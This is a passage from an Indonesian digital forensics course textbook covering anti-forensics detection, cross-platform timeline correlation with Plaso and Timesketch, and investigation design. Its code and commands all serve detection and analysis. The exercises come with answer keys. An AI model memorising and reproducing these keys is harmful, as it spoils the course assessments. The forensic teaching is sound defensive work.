            tampering_indicators.append({
                'type': 'SEQUENCE_NUMBER_GAP',
                'severity': 'HIGH',
                'detail': f"Gap dari record #{sequence_numbers[i-1]} ke #{sequence_numbers[i]}: "
                         f"{gap} records missing.",
                'implication': f'{gap} event records mungkin telah dihapus.'
            })
    
    # Korelasi: Security log cleared + kemudian Security log sangat sepi
    # (attacker mungkin hanya log clear, setelah itu aktivitas minimal)
    if len([e for e in evtx_parser_output if e.get('channel') == 'Security']) < 10:
        tampering_indicators.append({
            'type': 'SUSPICIOUSLY_SPARSE_SECURITY_LOG',
            'severity': 'MEDIUM',
            'detail': 'Security event log sangat sepi (<10 events) — mungkin setelah log clear.',
            'implication': 'Tidak bisa mengandalkan Security log sebagai sumber timeline.'
        })
    
    return tampering_indicators
```

### 4.4 Alternate Data Streams (ADS) pada NTFS

```bash
# Deteksi Alternate Data Streams yang tersembunyi (menggunakan dataset yang disediakan):

# Menggunakan Sysinternals Streams (pada Windows lab):
# streams.exe -s -d C:\suspicious_dir\

# Menggunakan PowerShell:
Get-Item -Path "C:\lab_dataset\suspicious_files\" -Stream * |
    Where-Object { $_.Stream -ne ':$DATA' } |
    Select-Object FileName, Stream, Length

# Contoh output yang mencurigakan:
# FileName: contract.docx  Stream: :hidden_payload  Length: 45213
# Length > 0 untuk stream non-standard = ADS tersembunyi

# Baca isi ADS:
Get-Content -Path "C:\lab_dataset\contract.docx" -Stream "hidden_payload" | 
    Format-Hex | Select-Object -First 20
# Cek: apakah ini executable (MZ header = 4D 5A) atau data terenkripsi
```

## 5. Model atau Arsitektur

```mermaid
flowchart TD
    AF["Anti-Forensics Activity\n(oleh suspect/attacker)"] --> TS["Timestomping:\n$SI timestamps dimodifikasi"]
    AF --> WIPE["Wiping:\nSDelete/Eraser dijalankan"]
    AF --> LOGTAMP["Log Tampering:\nEventID 1102 — Security log cleared"]
    AF --> ENCRYPT["Enkripsi:\nfile atau disk dienkripsi"]
    AF --> ADS["Hiding:\ndata di ADS atau rootkit"]
    
    TS --> |"meninggalkan"| TS_A["Artefak yang detectable:\n$SI vs $FN discrepancy\nM before B timestamp"]
    WIPE --> |"meninggalkan"| WIPE_A["Artefak yang detectable:\nPrefetch, UserAssist,\nShellbag, MFT zero-size"]
    LOGTAMP --> |"meninggalkan"| LOG_A["Artefak yang detectable:\nEventID 1102 itu sendiri,\nsequence number gap"]
    ENCRYPT --> |"meninggalkan"| ENC_A["Artefak yang detectable:\nFile header signature,\nVeraCrypt volume presence"]
    ADS --> |"meninggalkan"| ADS_A["Artefak yang detectable:\nNTFS stream listing,\nrootkit indicators dalam memory"]
    
    TS_A & WIPE_A & LOG_A & ENC_A & ADS_A --> REPORT["Anti-Forensics Detection\nSection dalam Forensic Report"]
```

## 6. Contoh Terapan

**Skenario: Insider melakukan log tampering sebelum investigasi dimulai:**

```markdown
## Anti-Forensics Detection Report — Case CF-2025-001

### Finding AF-001: Security Event Log Cleared
- Artefak: Windows Security.evtx
- EventID 1102: "The audit log was cleared" pada 2025-10-29 04:00:12 UTC
- Subjek: DOMAIN\admin01 (akun ini juga tersangka utama)
- Gap: Record ID 45.872 → 45.873 (lompat dari 1102 ke next event setelah clear)
- Implikasi: Semua Security events antara 03:00 UTC – 04:00 UTC kemungkinan besar dihapus.
- Rekomendasi: Cari sumber log alternatif (firewall, DNS, Sysmon jika ada).

### Finding AF-002: Timestomping pada malware.exe
- Artefak: $MFT entry untuk C:\Users\admin01\AppData\Local\Temp\svchost32.exe
- $STANDARD_INFORMATION Born: 2024-01-01 00:00:00 UTC (sangat mencurigakan: tanggal "clean")
- $STANDARD_INFORMATION Modified: 2024-01-01 00:00:00 UTC (identik dengan Born)
- $FILE_NAME Born: 2025-10-28 23:55:23 UTC (berbeda 21 bulan dari $SI!)
- Conclusion: $SI timestamps telah di-modifikasi (timestomped). $FN timestamps tidak dimodifikasi.
- Actual file creation: sekitar 2025-10-28 23:55 UTC berdasarkan $FN.

### Finding AF-003: SDelete dieksekusi
- Artefak: Prefetch — SDELETE.EXE-XXXXXXXX.pf
- Last Run: 2025-10-29 04:05:00 UTC (5 menit setelah log clear)
- Run Count: 3 (dijalankan 3 kali dalam session ini)
- Implikasi: File mungkin telah di-overwrite. File carving dari unallocated space diperlukan.

### Consolidated Anti-Forensics Assessment:
Terdapat bukti kuat bahwa admin01 secara aktif mencoba menghilangkan bukti (sequential:
log clear → timestamp manipulation → file wiping). Upaya anti-forensics ini sendiri
menunjukkan kesadaran guilt (consciousness of guilt) yang relevan secara hukum.
Artefak anti-forensics ini harus disertakan dalam laporan expert witness.
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Mendeteksi indikator anti-forensics dalam dataset yang disediakan.

**Aktivitas (menggunakan dataset dari dosen):**
1. Analisis $MFT timestamps (dari Plaso output yang disediakan): identifikasi anomali MACB.
2. Cari EventID 1102/104 dalam Windows Event Log exports.
3. Identifikasi penggunaan wiping tools dari Prefetch dan UserAssist.
4. Dokumentasikan semua temuan dalam format AF Detection Report.
5. Tentukan confidence level untuk setiap temuan.
6. Tulis bagian "Anti-Forensics Section" untuk laporan investigasi.

**Output:** Anti-Forensics Detection Report — bagian dari Eval-4.

## 8. Latihan Pemahaman

1. **(C4)** Mengapa $FILE_NAME timestamps lebih sulit di-manipulasi dibandingkan $STANDARD_INFORMATION timestamps? Apa implikasinya bagi investigator ketika menemukan discrepancy antara keduanya?

2. **(C4)** Seorang tersangka berargumen bahwa SDelete.exe ditemukan di prefetch karena dia adalah "IT admin yang bertugas menghapus data lama sesuai prosedur." Bagaimana Anda mengevaluasi klaim ini secara forensik? Evidence apa yang akan mendukung atau mementahkan klaim tersebut?

3. **(C5)** Evaluasi pernyataan ini: "Jika attacker berhasil menghapus semua log, tidak ada yang bisa dilakukan investigator." Setujukah Anda? Jelaskan dengan 3 sumber evidence alternatif yang mungkin masih tersedia.

## 9. Latihan Terapan / Studi Kasus

Dalam investigasi insider threat, Anda menemukan: (1) EventID 1102 pada 02:15 UTC; (2) Gap sequence number 5.000 records sebelum EventID 1102; (3) SDelete.exe dalam Prefetch, last run 02:20 UTC; (4) $MFT entry untuk executive_salary_data.xlsx dengan $SI Born 2020-01-01 dan $FN Born 2025-10-28; (5) Unallocated space di drive menunjukkan pola 0x00 fill pada sektor 500.000–800.000. Susun: (a) Anti-Forensics Detection Report yang lengkap dengan severity; (b) Rekomendasi untuk recovery evidence; (c) Pernyataan tentang "consciousness of guilt" untuk kebutuhan laporan hukum; (d) Source log alternatif yang masih perlu dicek.

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** $FILE_NAME timestamps hanya dapat dimodifikasi oleh Windows kernel melalui syscall resmi yang melibatkan parent directory (karena $FN adalah bagian dari directory entry). Memodifikasi $FN memerlukan akses level driver atau debugging API, sedangkan $SI timestamps dapat dimodifikasi dengan SetFileTime() API standar yang tersedia untuk user-level program. Implikasi bagi investigator: jika $SI dan $FN berbeda, ini adalah indikasi kuat timestomping. $FN timestamps dianggap lebih reliable sebagai indikasi actual file creation time.

**Soal 2:** Untuk mengevaluasi klaim secara forensik: (a) Cek kapan SDelete dijalankan — apakah sesuai jadwal maintenance? Apakah ada change ticket atau email approval untuk aktivitas ini? (b) Cek path file yang di-delete oleh SDelete — apakah ini file "data lama" atau file yang relevan dengan kasus? (c) Cek siapa user yang menjalankan SDelete — apakah itu akun IT admin khusus, atau akun personal admin01? (d) Cek run history: apakah SDelete pernah dijalankan sebelumnya? Jika ini pertama kali dan tepat setelah suspected exfiltration, sangat mencurigakan. (e) Jika organisasi memiliki prosedur data destruction, cek apakah prosedur itu diikuti (biasanya ada documentation dan witness).

**Soal 3:** Tidak setuju sepenuhnya. Bahkan tanpa Windows Event Log, investigator masih memiliki opsi: (1) Sysmon log (jika dikonfigurasi terpisah dari Security log, dan dengan output ke syslog atau SIEM): process creation, network connections, file operations; (2) Firewall/proxy/DNS log dari infrastruktur jaringan — tidak tergantung pada device tersangka; (3) Cloud/SaaS logs (O365, Google Workspace, Salesforce) yang tersimpan di cloud, tidak dapat di-wipe dari device lokal; (4) Memory forensics: jika berhasil mendapatkan memory image sebelum shutdown, banyak artefak (process, connection, credentials) masih ada. Bahkan wiping hard drive tidak menghilangkan RAM state.

**Studi Kasus:** (a) AF Detection Report: CRITICAL (EventID 1102 + 5.000 record gap = deliberate log deletion), CRITICAL (SDelete Prefetch + unallocated pattern fill = file wiping), HIGH (timestomped file — executive_salary_data.xlsx menunjukkan $SI set ke 2020-01-01 untuk menyamarkan). (b) Rekomendasi recovery: file carving dari unallocated space (sektor 500.000–800.000 di-fill dengan 0x00 — overwritten, kemungkinan tidak recoverable); cari shadow copies (VSS): jika VSS aktif, mungkin ada pre-wipe version dari executive_salary_data.xlsx; cari di email log atau cloud backup: file mungkin pernah di-attach ke email atau sync ke cloud. (c) Consciousness of guilt statement: "Rangkaian tindakan (log deletion → timestamp manipulation → file wiping) yang terjadi secara sekuensial dalam 30 menit antara 02:15–02:25 UTC menunjukkan bahwa pelaku memiliki kesadaran tentang potensi investigasi dan secara aktif berusaha menghilangkan bukti. Dalam yurisprudensi, konsep 'consciousness of guilt' (kesadaran bersalah) yang dimanifestasikan melalui upaya menutup bukti dapat menjadi bukti tambahan intent." (d) Source log alternatif: Active Directory log di domain controller (event logon/logoff terpusat); firewall log untuk aktivitas network; DLP (Data Loss Prevention) system jika ada; email gateway untuk attachment history; CCTV/access control untuk physical presence verification.

## 11. Ringkasan Bab

Anti-forensics mencakup timestomping ($SI manipulation, deteksi via $SI/$FN discrepancy), file wiping (SDelete/Eraser, deteksi via Prefetch/UserAssist), log tampering (EventID 1102, sequence number gaps), dan artefak hiding (ADS, rootkit). Paradoks kunci: upaya anti-forensics selalu meninggalkan artefak tersendiri yang dapat dideteksi. Dokumen setiap indikator anti-forensics dalam laporan — karena ini sendiri adalah bukti yang relevan. Consciousness of guilt dari upaya anti-forensics dapat memiliki relevansi hukum.

## 12. Refleksi Profesional

1. Sebagai investigator forensik yang akan menjadi saksi ahli, Anda menemukan bukti kuat anti-forensics (log cleared, timestamp manipulated). Dalam kesaksian Anda, bagaimana Anda menjelaskan temuan ini kepada hakim yang tidak memiliki latar belakang teknis, tanpa membuat overclaim tentang guilt?

---

# BAB 11 — KORELASI LINTAS PLATFORM DAN VALIDASI TIMELINE

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Melakukan korelasi bukti dari memory, disk, network, mobile, dan cloud
- Menggunakan Plaso dan Timesketch untuk analisis timeline lanjutan
- Mengevaluasi confidence dan ketidakpastian dalam timeline
- Menyusun validated correlation matrix sebagai basis laporan ahli

*Berkaitan dengan Sub-CPMK-4, Eval-4 (20%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Cross-Platform Correlation] --> B[Evidence Layers]
    B --> B1["Layer 1: Memory\n(volatile, process/network state)"]
    B --> B2["Layer 2: Disk\n(NTFS, Registry, Prefetch, EventLog)"]
    B --> B3["Layer 3: Network\n(firewall, proxy, DNS, flow)"]
    B --> B4["Layer 4: Mobile\n(SMS, call log, app data)"]
    B --> B5["Layer 5: Cloud\n(CloudTrail, GWS, O365)"]
    A --> C[Correlation Techniques]
    C --> C1["IP address correlation:\nsame IP muncul di\nberbagai log"]
    C --> C2["Temporal correlation:\nevent dari multiple sources\ndalam time window sempit"]
    C --> C3["Hash correlation:\nfile hash muncul di\nmultiple locations"]
    C --> C4["Identity correlation:\nuser/account yang sama\ndi multiple platforms"]
    A --> D[Validation Matrix]
    D --> D1["Corroboration:\nberapa sources confirm\nsatu event?"]
    D --> D2["Contradiction:\nadakah evidence yang\nbertentangan?"]
    D --> D3["Gap analysis:\nada periode tanpa evidence?\nmengapa?"]
    A --> E[Timesketch]
    E --> E1["Upload: CSV/Plaso timeline"]
    E --> E2["Annotate: tandai key events"]
    E --> E3["Visualize: heatmap, gantt"]
    E --> E4["Search: filter by time,\nkeyword, tag"]
```

## 3. Pengantar Kontekstual

Investigasi forensik yang kuat tidak bergantung pada satu sumber bukti. Analisis korelasi lintas platform membangun narasi yang lebih komprehensif dan meningkatkan confidence setiap temuan. Bab ini membahas metode sistematis untuk mengintegrasikan bukti dari berbagai layer dan menghasilkan validated timeline yang dapat dipertahankan dalam forum hukum.

## 4. Landasan Teori

### 4.1 Correlation Matrix: Struktur Sistematis

```python
"""
Correlation matrix builder — mengintegrasikan evidence dari berbagai sources.
"""
from dataclasses import dataclass, field
from datetime import datetime
from typing import List, Optional

@dataclass
class EvidenceItem:
    """Satu item evidence dari satu source"""
    source_type: str          # memory, disk, network, mobile, cloud
    source_name: str          # "Windows Security.evtx", "CloudTrail", dsb
    timestamp_utc: datetime
    event_description: str
    confidence: str           # HIGH, MEDIUM, LOW, UNCERTAIN
    related_ip: Optional[str] = None
    related_user: Optional[str] = None
    related_file_hash: Optional[str] = None
    notes: str = ""

@dataclass
class CorrelatedEvent:
    """Event yang terkonfirmasi oleh multiple sources"""
    event_summary: str
    evidence_items: List[EvidenceItem] = field(default_factory=list)
    
    @property
    def corroboration_count(self):
        return len(self.evidence_items)
    
    @property
    def composite_confidence(self):
        high_count = sum(1 for e in self.evidence_items if e.confidence == 'HIGH')
        if high_count >= 2:
            return 'HIGH'
        elif high_count == 1 or len(self.evidence_items) >= 2:
            return 'MEDIUM'
        else:
            return 'LOW'
    
    @property
    def sources_summary(self):
        return ', '.join(set(e.source_type for e in self.evidence_items))


def build_correlation_matrix(evidence_items: List[EvidenceItem], 
                              time_window_seconds: int = 300):
    """
    Kelompokkan evidence items yang berkaitan (same IP/user/hash dalam time window).
    Return: list of CorrelatedEvent
    """
    correlated = []
    used = set()
    
    for i, item in enumerate(evidence_items):
        if i in used:
            continue
        
        cluster = [item]
        used.add(i)
        
        for j, other in enumerate(evidence_items):
            if j in used:
                continue
            
            # Cek korelasi: sama IP atau user dalam time window:
            time_diff = abs((item.timestamp_utc - other.timestamp_utc).total_seconds())
            same_ip = (item.related_ip and item.related_ip == other.related_ip)
            same_user = (item.related_user and item.related_user == other.related_user)
            same_hash = (item.related_file_hash and 
                        item.related_file_hash == other.related_file_hash)
            
            if time_diff <= time_window_seconds and (same_ip or same_user or same_hash):
                cluster.append(other)
                used.add(j)
        
        if len(cluster) > 1:
            correlated_event = CorrelatedEvent(
                event_summary=f"Correlated event cluster at ~{item.timestamp_utc} UTC",
                evidence_items=cluster
            )
            correlated.append(correlated_event)
    
    return correlated
```

### 4.2 Plaso Advanced: Custom Parser dan Filter

```bash
# Menggunakan Plaso dengan dataset dari dosen:

# 1. Parse all sources dalam evidence directory:
log2timeline.py \
    --parsers "all" \
    --storage-file case_full.plaso \
    /lab/case_evidence/

# 2. Export dengan multiple filters:
psort.py \
    --output-format dynamic \
    --fields "datetime,source,source_short,message,filename,username,hostname" \
    -w correlated_timeline.csv \
    case_full.plaso \
    "datetime > '2025-10-28T00:00:00' AND datetime < '2025-10-30T00:00:00' AND (
     source_short = 'EVT' OR source_short = 'PREFETCH' OR 
     source_short = 'REGF' OR source_short = 'LNK' OR
     source_short = 'NTFS'
    )"

# 3. Filter oleh specific user:
psort.py \
    --output-format dynamic \
    -w admin01_activity.csv \
    case_full.plaso \
    "username = 'admin01'"

# 4. Filter oleh IP address (untuk sumber log yang menyertakan IP):
psort.py \
    --output-format dynamic \
    -w ip_activity.csv \
    case_full.plaso \
    "message contains '203.0.113.88'"
```

### 4.3 Timesketch: Kolaboratif Timeline Analysis

```python
"""
Timesketch API client — upload timeline dan tambahkan annotations.
(Menggunakan Timesketch local instance di lab)
"""
from timesketch_api_client import config as ts_config

# Inisialisasi client (menggunakan lab instance):
ts = ts_config.get_client()

# Buat sketch baru:
sketch = ts.create_sketch('Case CF-2025-001 — Insider Exfiltration')

# Upload timeline dari CSV:
with open('/lab/output/correlated_timeline.csv', 'r') as f:
    timeline = sketch.upload_timeline(
        name='Full Case Timeline',
        file_object=f,
        timeline_name='Main Timeline'
    )

print(f"Timeline ID: {timeline.id}")
print(f"Sketch URL: {sketch.url}")

# Tambahkan tagged "key events" via annotation:
# (Lakukan dari UI Timesketch untuk investigasi interaktif)
# Atau via API:
search_obj = sketch.explore(
    query_string='eventtype:"1102"',
    return_fields=['datetime', 'message', 'username']
)
for event in search_obj.get('objects', []):
    sketch.add_event_comment(
        event_id=event['_id'],
        index_name=event['_index'],
        comment='ANTI-FORENSICS: Security log cleared here — HIGH significance'
    )
```

### 4.4 Uncertainty Documentation: Kejujuran Forensik

```markdown
## Uncertainty dan Contradiction Documentation

### Metodologi
Setiap temuan yang tidak pasti, terkontradiksi, atau memiliki alternatif interpretasi 
HARUS didokumentasikan. Laporan forensik yang menghilangkan uncertainty dianggap tidak 
jujur dan dapat dipertanyakan oleh pengadilan.

### Tabel Kontradiksi yang Diidentifikasi

| Event | Evidence A (Sumber 1) | Evidence B (Sumber 2) | Kontradiksi | Resolusi |
|---|---|---|---|---|
| Waktu login | Windows Event Log: 03:42 WIB | Firewall log: 03:43 WIB | Beda 1 menit | Clock skew antara DC dan firewall; resolusi: normalized ke UTC |
| Lokasi | CloudTrail: IP 203.0.113.88 (US) | VPN log: koneksi dari Jakarta | Beda lokasi | User mungkin menggunakan VPN yang route ke US; atau IP adalah exit node VPN |
| Data volume | VPC Flow: 45 GB outbound | S3 Access Log: 12 GB GetObject | Volume tidak cocok | VPC Flow mungkin termasuk encryption overhead dan retransmission; S3 log lebih akurat untuk content |

### Implikasi
Kontradiksi ini tidak menghilangkan temuan utama, namun harus dicatat dan 
dijelaskan. Pengacara pembela akan menggunakan kontradiksi yang tidak dijelaskan 
sebagai kelemahan kesaksian.
```

## 5. Model atau Arsitektur

```mermaid
flowchart LR
    subgraph RAW["Raw Evidence"]
        MEM["Memory Image"]
        DISK["Disk Image"]
        NET["Network Logs"]
        MOB["Mobile Backup"]
        CLD["Cloud Log Exports"]
    end
    
    subgraph PROCESS["Correlation Pipeline"]
        PARSE["log2timeline / Plaso\n(multi-format parse)"]
        NORM["Normalize Timestamps\n→ UTC"]
        CORR["Correlation Engine:\n(IP, user, hash, time window)"]
        UNCERTAINTY["Uncertainty Flag:\ncontradictions, gaps, LOW confidence"]
    end
    
    subgraph OUTPUT["Validated Output"]
        MATRIX["Correlation Matrix\n(per event, per corroboration)"]
        SKETCH["Timesketch\n(visual + annotation)"]
        REPORT["Correlation Section\nin Expert Report"]
    end
    
    MEM & DISK & NET & MOB & CLD --> PARSE --> NORM --> CORR --> MATRIX
    CORR --> UNCERTAINTY --> REPORT
    MATRIX --> SKETCH --> REPORT
```

## 6. Contoh Terapan

```markdown
## Validated Correlation Report — Case CF-2025-001

### KEY EVENT K-001: Initial Compromise
- Timestamp: 2025-10-29 03:41:00 UTC (± 30 detik)
- Corroboration: GWS Login Log (HIGH) + CloudTrail Console Login (HIGH) = 2 HIGH sources
- Composite Confidence: HIGH
- Description: user@corp.com login ke Google Workspace dan AWS Console secara bersamaan dari IP 203.0.113.88 (Geolocation: US East, bukan lokasi biasa user ini)
- Uncertainty: Tidak dapat memastikan apakah ini human atau automated script; user-agent analysis dari GWS log menunjukkan Chrome/Windows, bukan curl/boto3.

### KEY EVENT K-002: Data Staging
- Timestamp: 2025-10-29 03:42:00 – 03:43:00 UTC
- Corroboration: GWS Drive Audit (MEDIUM) + CloudTrail GetObject (HIGH) = 1H + 1M
- Composite Confidence: MEDIUM
- Description: 847 file di-download dari Drive DAN 12 GB data di-download dari S3 dalam window 1 menit
- Uncertainty: Tidak dapat memastikan bahwa 847 file Drive dan 12 GB S3 adalah kumpulan data yang sama atau berbeda.

### KEY EVENT K-003: Anti-Forensics
- Timestamp: 2025-10-29 03:45:00 UTC
- Corroboration: CloudTrail DeleteTrail (HIGH) + Windows EventID 1102 (HIGH) = 2 HIGH
- Composite Confidence: HIGH
- Description: CloudTrail logging di-disable DAN Security Event Log di-clear dalam window 3 menit
- Uncertainty: Tidak diketahui apakah ada log copies di lokasi lain yang juga di-delete.

### CONTRADICTION C-001: Volume discrepancy
VPC Flow menunjukkan 45 GB outbound; S3 access log menunjukkan 12 GB GetObject.
Kemungkinan penjelasan: (a) VPC Flow termasuk TLS overhead; (b) data di-compress atau di-encrypt sebelum transfer; (c) ada sumber data lain yang juga di-exfiltrate yang belum teridentifikasi.
Status: UNRESOLVED — perlu investigasi lanjutan.
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Membangun validated correlation matrix dari semua dataset yang telah dikumpulkan.

**Aktivitas (menggunakan datasets dari Bab 7–10):**
1. Compile semua evidence items dari seluruh analisis sebelumnya.
2. Bangun correlation matrix: kelompokkan berdasarkan IP/user/hash dalam time windows.
3. Beri composite confidence untuk setiap correlated event.
4. Identifikasi dan dokumentasikan contradictions.
5. Upload ke Timesketch (jika tersedia) atau buat spreadsheet timeline.
6. Tulis correlation section untuk laporan investigasi.

**Output:** Validated Correlation Matrix + Timeline — deliverable Eval-4.

## 8. Latihan Pemahaman

1. **(C5)** Sebuah event didukung oleh 3 sumber yang semuanya berasal dari log satu machine (Windows Event Log Security, Windows Event Log System, dan Windows Event Log Application). Apakah ini dianggap HIGH confidence berdasarkan "3 sources"? Mengapa atau mengapa tidak?

2. **(C4)** Apa perbedaan antara "absence of evidence" dan "evidence of absence" dalam konteks gap analysis pada timeline forensik? Berikan contoh masing-masing.

## 9. Latihan Terapan / Studi Kasus

Anda memiliki timeline dengan 3 "keystone events" yang sudah divalidasi (K-001 hingga K-003) dan satu contradiction (C-001: volume discrepancy). Seorang pengacara pembela menanyakan: (a) "Bagaimana Anda bisa yakin bahwa login di GWS (K-001) dilakukan oleh klien saya dan bukan oleh seseorang yang mencuri passwordnya?" (b) "Contradiction C-001 menunjukkan bahwa investigasi Anda tidak akurat — volume data yang dilaporkan berbeda 33 GB!" Bagaimana Anda merespons secara profesional dan tepat sebagai saksi ahli?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Tidak cukup dianggap HIGH corroboration hanya karena "3 sources" jika semua sumber berada di satu machine yang dikontrol tersangka atau yang sudah di-compromise. Ketiga log tersebut (Security, System, Application) semuanya berasal dari Windows Event Log yang berjalan di machine yang sama — jika machine di-compromise atau log dimanipulasi, ketiga sumber akan menunjukkan informasi yang sama (atau sama-sama dimanipulasi). HIGH confidence yang sesungguhnya berasal dari **independent** sources — machine yang berbeda, platform yang berbeda, atau provider yang berbeda. Satu machine Windows dengan 3 event log adalah lebih baik dideskripsikan sebagai "1 platform, 3 corroborating channels" dengan confidence MEDIUM.

**Soal 2:** "Absence of evidence" = kita tidak menemukan evidence untuk suatu event, namun tidak bisa memastikan event itu tidak terjadi (mungkin log tidak di-configure, sudah di-delete, atau di luar scope pencarian). Contoh: "Tidak ditemukan CloudTrail log untuk periode 02:00–03:00 UTC" — mungkin karena attacker menghapus log, atau memang tidak ada aktivitas, atau logging tidak aktif. "Evidence of absence" = ada bukti positif bahwa sesuatu tidak terjadi. Contoh: "CCTV menunjukkan tersangka ada di lokasi lain pada waktu yang sama dengan waktu login dari remote IP — sehingga login tersebut dilakukan oleh orang lain atau akun digunakan oleh pihak ketiga."

**Studi Kasus:** (a) Respons untuk pertanyaan tentang identity: "Pertanyaan yang tepat. Bukti forensik kami menunjukkan bahwa login dilakukan menggunakan credential yang valid untuk akun user@corp.com — kami tidak dapat secara teknis membuktikan dari log ini bahwa individu tertentu (klien Anda) yang mengetik password tersebut. Namun, kami dapat menunjukkan: (1) login berasal dari IP yang sama dengan IP yang digunakan untuk akun cloud serta IP eksfiltrasi; (2) sesi ini memiliki akses ke data spesifik yang hanya dapat diakses oleh user@corp.com; (3) aktivitas ini menggunakan pattern akses yang konsisten dengan kebiasaan penggunaan akun ini (berdasarkan historical baseline). Identitas fisik adalah domain kesaksian manusia dan CCTV — bukan semata-mata domain forensik digital." (b) Respons untuk contradiction volume: "Terima kasih untuk pertanyaannya. C-001 adalah inconsistency yang kami identifikasi dan dokumentasikan secara proaktif dalam laporan kami — justru karena transparansi adalah bagian dari standar profesi kami. Perbedaan antara VPC Flow (45 GB) dan S3 Access Log (12 GB) dapat dijelaskan oleh: TLS overhead, compression, dan kemungkinan bahwa ada sumber data lain (non-S3) yang juga diakses dalam sesi yang sama. Ini bukan ketidakakuratan dalam investigasi kami — ini adalah uncertainty yang kami dokumentasikan untuk investigasi lanjutan. S3 Access Log (12 GB) adalah angka yang kami gunakan untuk klaim exfiltration dalam laporan kami, bukan angka VPC Flow."

## 11. Ringkasan Bab

Korelasi lintas platform meningkatkan confidence setiap temuan. High confidence mensyaratkan 2+ independent sources (bukan hanya 2 channel dari satu machine). Plaso/log2timeline mengotomatiskan aggregasi; Timesketch memfasilitasi analisis kolaboratif. Contradiction harus didokumentasikan secara proaktif — bukan disembunyikan. Uncertainty statement dan limitation note adalah tanda kualitas laporan forensik, bukan kelemahan.

## 12. Refleksi Profesional

1. Dalam investigasi yang melibatkan tersangka dari unit internal (rekan kerja atau atasan), ada tekanan implisit untuk "tidak menemukan" bukti yang memberatkan. Bagaimana memastikan bahwa investigasi forensik tetap objektif dan independen dalam kondisi seperti ini? Mekanisme kelembagaan apa yang seharusnya ada?

---

# BAB 12 — CAPSTONE FASE 1: PERANCANGAN INVESTIGASI DAN EVIDENCE PACKAGE

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Merancang investigasi forensik komprehensif dari case briefing
- Menyusun evidence acquisition plan yang legal dan sistematis
- Membangun evidence package yang memenuhi standar admissibility
- Mendokumentasikan seluruh pre-analysis planning

*Berkaitan dengan Sub-CPMK-5, Eval-5/EAS (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Capstone Fase 1:\nInvestigation Design] --> B[Case Briefing Analysis]
    B --> B1["Apa yang terjadi?\n(incident description)"]
    B --> B2["Siapa stakeholders?\n(client, legal, IT)"]
    B --> B3["Apa scope?\n(in-scope devices & accounts)"]
    B --> B4["Apa timeline kasus?\n(incident window)"]
    A --> C[Legal Authorization]
    C --> C1["Corporate investigation:\npolicy-based authorization"]
    C --> C2["Criminal investigation:\nwarrant atau consent"]
    C --> C3["Batasan otorisasi:\napa yang TIDAK boleh dilakukan"]
    A --> D[Evidence Acquisition Plan]
    D --> D1["Priority triage:\norder of volatility"]
    D --> D2["Metode akuisisi:\nper device/source"]
    D --> D3["Tools yang digunakan:\ntermasuk versi"]
    D --> D4["Hash verification:\nprocedure untuk setiap item"]
    A --> E[Evidence Package]
    E --> E1["Evidence register:\nEID, deskripsi, hash, CoC"]
    E --> E2["Working copies:\nbukan original"]
    E --> E3["Forensic hypothesis:\nH1, H2 yang falsifiable"]
    E --> E4["Timeline kasus:\nscope investigasi"]
```

## 3. Pengantar Kontekstual

Capstone dimulai di sini: merancang seluruh investigasi sebelum menyentuh satu artefak pun. Perencanaan yang baik mencegah kontaminasi evidence, memastikan legalitas setiap langkah, dan menghasilkan evidence package yang dapat dipertahankan di pengadilan. Fase 1 ini merupakan fondasi dari Capstone yang akan berlanjut ke Fase 2 (analisis) dan Fase 3 (pelaporan).

## 4. Landasan Teori

### 4.1 Investigation Design Framework

**Investigation Design Document (IDD)** adalah dokumen rencana investigasi yang dibuat sebelum analisis dimulai. IDD mencakup:

```markdown
## INVESTIGATION DESIGN DOCUMENT (IDD)
### Case: [CASE-ID]

## 1. INCIDENT OVERVIEW
Deskripsi singkat insiden:
Estimated timeframe:
Reported by:
Date reported:

## 2. LEGAL AUTHORIZATION
Jenis otorisasi: □ Management directive □ Corporate IT policy □ Search warrant □ Consent form
Authorization document reference:
Authorized by:
Date authorized:
Scope limitation: Investigasi terbatas pada:
  - Devices: [list device yang diotorisasi]
  - Accounts: [list akun yang diotorisasi]
  - Period: [tanggal mulai - tanggal akhir]
BUKAN termasuk: [list eksplisit apa yang di-luar scope]

## 3. FORENSIC HYPOTHESES
H1 (Primary): [pernyataan yang falsifiable]
  → Artefak yang akan mendukung H1: [list]
  → Artefak yang akan mementahkan H1: [list]
H2 (Alternative): [pernyataan yang falsifiable]
  → Artefak yang akan mendukung H2: [list]
H3 (Null): Tidak ada insiden yang relevan secara forensik
  → Artefak yang akan mendukung H3: [list]

## 4. EVIDENCE SOURCES (IN-SCOPE)
| Source ID | Deskripsi | Lokasi | Prioritas | Metode Akuisisi |
|---|---|---|---|---|
| E-001 | Laptop corporate suspect | Ruang IT, lantai 3 | CRITICAL | dd + SHA-256 |
| E-002 | CloudTrail logs | AWS S3 bucket | HIGH | export via AWS CLI |
| E-003 | Android corporate phone | Penyimpanan IT | HIGH | ADB backup |

## 5. ACQUISITION PLAN
Tool yang akan digunakan:
  - Disk imaging: dc3dd v7.2.641
  - Hash: sha256sum (coreutils 8.32)
  - Memory: WinPmem 4.0.rc1 atau LiME 1.9.1
  - Mobile: ADB 1.0.41 / iMazing 2.x

Prosedur hash verification:
  1. Hash source sebelum akuisisi
  2. Buat image
  3. Hash image
  4. Verifikasi: source hash = image hash

Write-blocker: [model dan serial number perangkat yang akan digunakan]

## 6. EVIDENCE REGISTER TEMPLATE
[Diisi saat akuisisi berlangsung]

## 7. ASSUMPTIONS DAN LIMITATIONS
Assumptions:
  - Log retention dikonfigurasi dan data tersedia
  - Tidak ada remote wipe atau enkripsi yang mencegah akuisisi
Limitations yang diantisipasi:
  - CloudTrail mungkin hanya tersedia 90 hari
  - Jika FDE aktif, diperlukan passcode dari custodian

## 8. CHAIN OF CUSTODY PROCEDURE
Lead Investigator:
Secondary Investigator:
Evidence Custodian:
Setiap transfer evidence harus: tanda tangan kedua pihak, timestamp, alasan transfer

## 9. ETHICAL CONSTRAINTS
□ Tidak akan mengakses data di luar scope otorisasi
□ Data sensitif personal (non-case-relevant) tidak akan dibaca/dicatat
